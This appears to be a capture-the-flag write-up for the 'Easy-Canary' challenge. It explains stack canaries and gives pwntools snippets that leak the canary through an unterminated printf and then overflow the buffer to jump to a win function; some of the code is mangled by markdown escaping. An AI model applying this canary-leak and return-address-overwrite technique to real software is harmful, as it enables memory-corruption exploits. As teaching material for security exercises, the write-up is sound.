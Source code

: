 # Easy-Canary

This challenge consisted of a ret2win, with stack canaries implemented.

## Prerequisites:
Know how buffer overflows work.

## What are stack canaries?
The term comes from the historical use of canaries in coal mines. Since canaries are more vulnerable to toxic gases than humans are, coal miners would bring canary birds with them. When the canary died, they would know that they would also died soon and could safely evacuate the mine.
Stack canaries are "secret" values placed on the stack just before the return address. Attackers usually have the goal of changing the return address with a BOF (buffer overflow), but to do that, the canary must be overwritten as well.
So compilers insert code to the following:

1.Place a random canary value (at program startup) on the stack.
2.Check the canary before returning from a function.
3.If the canary is corrupted, terminate the program (usually with via \_\_stack_chk_fail()).

For more information, check out this article: https://ctf101.org/binary-exploitation/stack-canaries/

## What was the vulnerability?
In easy-canary there is a buffer-overflow opportunity to buf. The buf has a size of 40 bytes, but we can insert 256 bytes. This leads us to try to overwrite the return address with a simple BOF. However, since the canary is present, a simple BOF won't work, the program will just crash, because the canary value won't stay the same.

### Just a bit more theory.
Before we dive into the exploit we need to understand how the printf() works in C.
Imagine we have a sentence like this:
"Hey we are Capitão Sapinhas and we are a ctf team we love to do ctfs"
What's missing here? Punctuation! If we asked someone to read the first sentence they would not know that it stops at "ctf team" because there is no period.
The way that printf() works is exactly the same. For printf() to know when to stop printing stuff it needs to have a "period", in this case a null byte "\x00". Strings are null terminated (ex: "car\x00"), so functions like printf() know where to stop printing data and not reveal any sensitive information.

Now that we have that out of the way we can understand the exploit.

First part:
```
io.sendlineafter(b'> ', b'1')
payload = \x00 \* 40 + b"x"
io.send(payload)
```

In this snippet all we do is fill the buffer with 40 null bytes, and one "x".
Visually speaking
Before the attack:
`
[buffer(40 bytes)][canary(eg:"\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
`
After the attack:
`
[buffer(filled)][canary(eg:"x\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
`

The printf function, instead of stopping printing at the canary, since there is no null byte, it will actually print the canary!
```
io.sendlineafter(b'> ', b'2')
io.recvuntil(payload)
canary = u64(b'\0' + io.recv(7))
log.info(f'{canary = :#0x}')
```
We print the actual canary with the "Printf your name" function. We have the canary!! Now all we have to do is a buffer overflow but replacing the canary with the value we know so that the program won't crash.
```
win = elf.symbols["win"]
print(hex(win))

payload2 = b"a" _ 40 + p64(canary) + b"b" _ 8 + p64(win+4)
print(payload2)

io.sendline(b"1")
io.recv()
io.sendline(payload2)
io.recv()
io.sendline(b"3")
io.interactive()
```

payload2 is filling the buffer, inserting the canary and changing the return address to the win function.
When we exit, the program will return to the win function.
